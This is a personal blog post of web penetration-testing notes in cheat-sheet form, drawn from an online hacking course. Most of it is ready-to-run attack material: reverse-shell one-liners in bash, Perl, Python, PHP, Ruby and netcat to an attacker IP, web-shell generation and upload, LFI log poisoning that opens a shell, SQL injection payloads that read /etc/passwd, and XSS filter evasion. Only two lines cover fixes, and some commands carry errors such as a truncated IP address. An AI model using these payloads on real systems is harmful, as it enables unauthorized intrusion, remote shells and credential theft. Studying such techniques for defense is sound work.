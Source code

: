 
---
layout: post
title: "Simple-Guide-to-Web-Pentest"
date: 2020-02-10 00:22:00 -0000
categories: jekyll
permalink: /notes/webpentest
tags: [note, htb, web]

---

# Simple-Guide-to-Web-Pentest
some references i made after enrolled udemy course by Zaid Sabih (Learn Website Hacking / Penetration Testing From Scratch)

## webbugTIPS

### **(Information Gathering)**

- `http://whois.domaintools.com` = find owner target
- `https://toolbar.netcraft.com/site_report?url` = show technology used on target
- `https://www.robtex.com` = show comprehensive info target
- Discovering Websites On The Same Server = *`bing ip:103.198.52.156 php?id`*
- Find subdomain (subdomain.target.com) = git clone https://github.com/guelfoweb/knock.git
- Find file/directory in target website by [_`dirb http://what.com.my /root/usr/share/wlist.txt`_]. Try find [`php.info, robots.txt, config.inc`] for specific target info.
- Maltego - Discovering Websites, Hosting Provider & Emails, Servers, Domains & Files.

### **File Upload Vulnerabilities – allow upload malicious file such as php shell**

- Metasploit Command: *`msfvenom -p php/meterpreter/bind_tcp LPORT=4444 LHOST=192.168.169.137 > /root/shell1.php`*
- Metasploit listener: *`use exploit/multi/handler; set payload php/meterpreter/bind_tcp; set RHOST <target-ip>; set RPORT 4444; run`*
- Upload Weevly shell. *`weevly generate p@55w0rd! shell.php`*
- .Open the url to activated.
- Connect to weevly terminal.  *`weevly http://test.com.my/upload p@55w0rd!`*
- Intercept and modify parameter with burpsuite. 
- How2fix: check validation of format, recreate img and rename img.

### **Code Execution Vulnerabilities – allow execution of OS command such as ping, ls, pwd.**

The following examples assume the hacker IP is 10.20.14 and use port 8080 for the connection. Therefore in all these cases you need to listen for port 8080 using the following command *`nc -vv -l -p 8080`*

- BASH = *`bash -i >& /dev/tcp/10.20.14.203/8080 0>&1`*
- PERL= *`perl -e 'use Socket;$i="10.20.14";$p=8080;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'`*
Python = *`python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.20.14",8080));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'`*
- PHP = *`php -r '$sock=fsockopen("10.20.14",8080);exec("/bin/sh -i <&3 >&3 2>&3");'`*
- Ruby = *`ruby -rsocket -e'f=TCPSocket.open("10.20.14",8080).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'`*
- Netcat = *n`c -e /bin/sh 10.20.14 8080`*

### **Local File Inclusion Vulnerabilities (LFI) – allow read file on same server, access file outside www dir.**

- Check for *`../../../../etc/passwd`* and copy the passwd hashes.
- Gain access method#1. Check for *`../../../../proc/self/environ`* and modify burpsuite Headers Tab>user Agent value from Mozilla to *`<?passthru(“nc -e /bin/sh attackerIP attackerPort”);?>`* and set listener to *`nc -vv -l -p 8888`* on terminal.
- Gain access method#2. Check for *`../../../../var/log/auth.log`* and do SSH by *`ssh “<?passthru(base64_decode(‘nc -e /bin/sh attackerIP attackerPort in base64ofgilberish’));?>”@attackerIP`* and set listener nc in terminal.

### **Remote File Inclusion Vulnerabilities (RFI) – allow access file from other host.**
- How2fix: prevent RFI by `disable allow_url_fopen` & `allow_url_include` in `/etc/php5/cgi/php.ini`.

### **SQLI Vulnerabilities - SQLi In Login Pages – use burpsuite to verify if it filters on client side or server side.**

- [WEAK codepractise] Discover POST try use `and, order by, ‘` and check for error handling. `123456’ and 1=1#`
- [WEAK codepractise] Try `(admin)/(admin’ #); aaa’ or 1=1 #`
- [BETTER codepractise] if client side filter, try modify parameter> password in burpsuite.

### **SQLI Vulnerabilities - Extracting Database**

- Discover GET(viewatURL) by execute at URL using *`admin’ order by 1#`* `# change to %23` to check how many columns are there in db.
- If there are 5 columns then use *`union select 1, database(), user(), version(), 5`*

### **SQLI Vulnerabilities - Advanced Exploitation – blind sqli mean not show any error msg**
- Check manually for blind sqli in URL for TRUE *`1’ and 1=1%23`*, FALSE  `1’ and 1=0%23`.
TRUE  `1’ order by 1%23`, FALSE   `1’ order by 1000000000%23`.
TRUE   `1’ union select table_name,2 from information_schema.tables%23`
`1’ union select null,load_file(‘/etc/passwd’),null,null,null%23`.
- *`Sqlmap -u http://injectablelink.com.org`* . use `‘--sql-shell’` parameter to run sql command.

### **XSS Vulnerabilities**

- Try basic *`<script>alert(“testedXSS”)</script>`*
- If filter, try more *`<sCripT>alert(“testedXSS”)</scRipt>`*
- Refer *https://www.owasp.org/index.php/XSS_Filter_Evasion_Cheat_Sheet*
